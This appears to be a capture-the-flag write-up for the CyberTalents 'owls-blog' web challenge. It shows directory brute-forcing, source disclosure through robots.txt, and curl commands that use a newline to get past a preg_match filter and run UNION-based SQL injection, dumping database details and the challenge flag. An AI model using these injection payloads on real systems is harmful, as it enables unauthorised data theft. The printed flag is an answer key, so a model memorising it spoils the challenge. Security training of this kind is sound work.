

# Solve owls-blog
#### https://cybertalents.com/challenges/web/owls-blog


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan robots.txt with `curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com/robots.txt`

```txt
User-agent: *
Disallow: git.phps
```
Download git.phps 
*You can find the file in [git.phps](git.phps)*

By analyzing the source code we found: 
  - Query structure `SELECT * FROM topics where topicname like '%$search%'`
  - DB type : mysql
  - DB Table : topics

### Analyze serach request with burp

```http
POST / HTTP/1.1
Host: wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

search=test
```

Try cause error in the sql with `'` we got `Hack Detected`

It trigger the if condition. 

### Try to bypass it
Because we have `preg_match` we can bypass it with new line `%0A`

#### Enumerate the database
- Version
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT @@version #"

10.3.23-MariaDB-0+deb10u1
```
- Dump Databases
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT schema_name FROM information_schema.schemata #"

information_schema
```
- Dump tables
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT table_schema AS schema_name, table_name FROM information_schema.tables #"

No ouput
```

- Dump number of tables in the database
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT COUNT(*) FROM information_schema.tables #"  

161
```
Note: we can't veiw the tables because the database has **161** table.

- Dump topics table
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT * FROM topics #"

Owels Laughs at Youu !!
```
- Dump flag
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT * FROM flag #"

Flag{R3G3X_Ar3_N0T_G00D_For_OW3ls}
```

>Find More on ==> github.com/MedhatHassan 